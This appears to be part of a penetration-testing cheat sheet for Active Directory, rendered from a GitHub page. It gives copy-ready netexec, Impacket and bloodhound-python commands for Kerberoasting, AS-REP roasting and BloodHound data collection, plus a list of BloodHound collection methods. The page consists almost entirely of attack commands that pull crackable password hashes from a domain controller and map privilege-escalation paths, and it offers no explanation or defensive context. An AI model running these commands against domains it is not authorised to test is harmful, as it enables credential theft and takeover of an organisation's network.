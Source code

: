 ```bash
```

### Kerberoasting

```bash
# Enumerate service accounts for Kerberoasting.
# Netexec Kerberoast
nxc ldap <dc-ip> -u <username> -p <password> --kerberoast kerberoast.txt
nxc ldap <dc-ip> -u <username> -H <HASH> --kerberoast kerberoast.txt
# Impacket
GetUserSPNs.py -request -dc-ip <dc-ip> -target-domain domain.local username:password
```

### ASREPRoasting
```bash
# Netexec ASREPRoast (requires a username list)
nxc ldap <dc-ip> -u usernameslist.txt -p '' --asreproast asreproast.txt
# Netexec ASREPRoast (requires a username and password or hash)
nxc ldap <dc-ip> -u <username> -p <password> --asreproast asreproast.txt
nxc ldap <dc-ip> -u <username> -H <HASH> --asreproast asreproast.txt

# Impacket ASREPRoast (requires a username wordlist)
GetNPUsers.py -request -usersfile users.txt -format hashcat -outputfile ASREPRoastables.txt domain/user:pass
```


### BloodHound

```bash
# Collect Active Directory data for analysis in BloodHound.
bloodhound-python -u <username> -p '<password>' -d <domain> -c All --zip

# Bloodhound with Netexec normal method
nxc ldap <dc-ip> -u <username> -p <password> --bloodhound --collection All

# Bloodhound with Netexec extra methods
nxc ldap <ip> -u user -p pass --bloodhound --collection Method1,Method2

## Collection Methods
    Default - Performs group membership collection, domain trust collection, local admin collection, and session collection
    Group - Performs group membership collection
    LocalAdmin - Performs local admin collection
    RDP - Performs Remote Desktop Users collection
    DCOM - Performs Distributed COM Users collection
    Container - Performs container collection (GPO/Organizational Units/Default containers)
    PSRemote - Performs Remote Management (PS Remoting) Users collection
    DCOnly - Runs all collection methods that can be queried from the DC only, no connection to member hosts/servers needed. This is equal to Group,Acl,Trusts,ObjectProps,Container
    Session - Performs session collection
    Acl - Performs ACL collection
    Trusts - Performs domain trust enumeration
    LoggedOn - Performs privileged Session enumeration (requires local admin on the target)
    ObjectProps - Performs Object Properties collection for properties such as LastLogon or PwdLastSet
    All - Runs all methods above, except LoggedOn
    Experimental - Connects to individual hosts to enumerate services and scheduled tasks that may have stored credentials

```

